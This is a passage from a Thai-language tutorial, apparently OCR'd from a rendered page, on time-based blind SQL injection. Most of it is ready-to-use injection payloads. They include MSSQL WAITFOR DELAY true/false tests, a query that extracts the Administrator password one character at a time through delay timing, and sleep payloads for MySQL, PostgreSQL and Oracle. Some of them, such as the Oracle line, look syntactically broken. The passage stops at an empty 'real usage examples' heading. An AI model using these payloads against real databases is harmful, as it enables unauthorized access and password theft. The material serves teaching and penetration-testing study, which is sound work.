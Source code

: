 ### การทดสอบเบื้องต้น:

**เงื่อนไขที่เป็นเท็จ (ไม่ควรเกิด delay):**
```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
```

**เงื่อนไขที่เป็นจริง (ควรเกิด delay 10 วินาที):**
```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

### อธิบาย Syntax:
- `WAITFOR DELAY '0:0:10'` = รอ 10 วินาที
- Format: `'ชั่วโมง:นาที:วินาที'`

## การดึงข้อมูลทีละตัวอักษร

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:10'--
```

### อธิบายโค้ดนี้:
1. `SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator'` - นับจำนวน user ชื่อ Administrator
2. `SUBSTRING(Password, 1, 1) > 'm'` - เช็คว่าตัวอักษรแรกของ password มากกว่า 'm'
3. ถ้าเงื่อนไขทั้งหมดเป็นจริง = delay 10 วินาที
4. ถ้าเป็นเท็จ = ไม่ delay

## เทคนิคสำหรับฐานข้อมูลอื่นๆ

### MySQL:
```sql
'; SELECT SLEEP(10) WHERE 1=1--
'; SELECT IF(1=1, SLEEP(10), 0)--
```

### PostgreSQL:
```sql
'; SELECT pg_sleep(10) WHERE 1=1--
'; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

### Oracle:
```sql
'; BEGIN DBMS_LOCK.SLEEP(10); END WHERE 1=1--
```

## ตัวอย่างการใช้งานจริง
